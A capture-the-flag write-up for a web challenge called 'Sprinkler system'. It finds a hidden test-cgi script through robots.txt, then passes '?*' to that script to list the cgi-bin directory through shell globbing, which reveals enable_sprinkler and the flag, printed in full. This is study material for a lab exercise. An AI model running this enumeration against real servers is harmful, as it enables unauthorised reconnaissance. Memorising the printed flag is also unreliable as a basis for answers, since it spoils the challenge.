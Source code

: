 # Sprinkler system - Web

### Problem


Sprinkler system - Web (100 + 0)

Damn new york... some chick tricked you into standing in the rain on the very first day... it's payback time!

Solves: 238

Service: http://sprinklers.alieni.se/

Author: avlidienbrunn

flag: SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}

When you first look at the web page it says not to turn on the sprinklers put other that the page does't have anything import on it. 


When a web page doesn't have alot of information the first thing I look at is the robots.txt

http://sprinklers.alieni.se/robots.txt

```
User-agent: *
Disallow: /cgi-bin/test-cgi
```

http://sprinklers.alieni.se/cgi-bin/test-cgi

```
argc is 0. argv is .
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = /
PATH_TRANSLATED = /var/www/html/index.html
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING =
REMOTE_HOST =
REMOTE_ADDR = 141.101.88.193
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH =
```

At first I was confused about what information this was giving me. Then I relized that it is a script that was run on the web server.

Once I figured that out I googled the script /cgi-bin/test-cgi the first link was:

http://insecure.org/sploits/test-cgi.html

The web site show the vulerablity in the script 

http://sprinklers.alieni.se/cgi-bin/test-cgi?*

```
CGI/1.0 test script report:
argc is 1. argv is \*.
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = 
PATH_TRANSLATED = 
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING = enable_sprinkler_system test-cgi
REMOTE_HOST =
REMOTE_ADDR = 172.68.102.79
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH
```

You can see that there is another script in /cgi-bin/ enable_sprinkler

http://sprinklers.alieni.se/cgi-bin/enable_sprinkler

You get the flag

SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}
